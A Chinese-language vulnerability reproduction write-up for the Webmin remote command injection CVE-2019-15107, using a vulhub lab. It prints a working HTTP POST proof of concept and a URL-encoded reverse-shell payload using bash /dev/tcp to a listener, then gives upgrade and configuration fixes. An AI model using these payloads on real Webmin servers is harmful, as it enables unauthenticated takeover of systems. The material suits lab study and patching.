






# Webmin 远程命令执行 (CVE-2019-15107)

| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2019-15107                                               |
| 漏洞名称 | Webmin 远程命令执行                                          |
| 漏洞评级 |                                                              |
| 影响范围 | Webmin<=1.920                                                |
| 漏洞描述 | 该漏洞由于password_change.cgi文件在重置密码功能在重置密码功能中发现了一个错误，该错误允许恶意第三方由于缺少输入验证而执行恶意代码。 |
| 修复方案 |                                                              |


### 1.1、漏洞描述

Webmin的是一个用于管理类Unix的系统的管理配置工具，具有网络页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。它已知在端口10000上运行。

该漏洞由于password_change.cgi文件在重置密码功能在重置密码功能中发现了一个错误，该错误允许恶意第三方由于缺少输入验证而执行恶意代码。

### 1.2、漏洞等级

### 1.3、影响版本

Webmin<=1.920

### 1.4、漏洞复现

#### 1、基础环境

Path：vulhub/webmin/CVE-2019-15107

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`https://your-ip:10000/`即可看到



#### 2、漏洞验证

直接访问https://your-ip:10000/password_change.cgi



抓包后修改如下POC即可

```bash
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|ls&new1=test2&new2=test2
```

上面poc需要注意：ip改成自己的ip，然后user参数不能是系统账户，后面接执行的命令。



命令执行成功

也可以使用`HackBar`插件执行



### 1.5、深度利用

#### 1、反弹Shell

```bash
bash -c "bash -i >& /dev/tcp/192.168.8.8/6868 0>&1"
```

进行[url编码](http://www.jsons.cn/urlencode/)  



Kali监听6868端口，BurpSuite发送数据包,进行反弹

```bash
POST /password_change.cgi HTTP/1.1
Host: 192.168.8.8:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://192.168.8.8:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 141

user=rootxx&pam=&expired=2&old=test|bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.8.8%2F6868%200%3E%261%22&new1=test2&new2=test2
```

反弹成功！



### 1.6、修复建议

目前Webmin官方已发布最新版 修复了该漏洞，请受影响的用户尽快升级至最新版本：

下载链接：http://webmin.com/download.html

临时解决方案：

1.900 到 1.920版本的用户，编辑Webmin配置文件：/etc/webmin/miniserv.conf，注释或删除“passwd_mode=”行，然后运行/etc/webmin/restart 重启服务命令。

注：修复漏洞前请将资料备份，并进行充分测试。

### 1.7、参考链接

- https://qftm.github.io/2020/10/25/CVE-2019-15107-Webmin-RCE-Backdoor/#toc-heading-6
- https://vulhub.org/#/environments/webmin/CVE-2019-15107/
- 

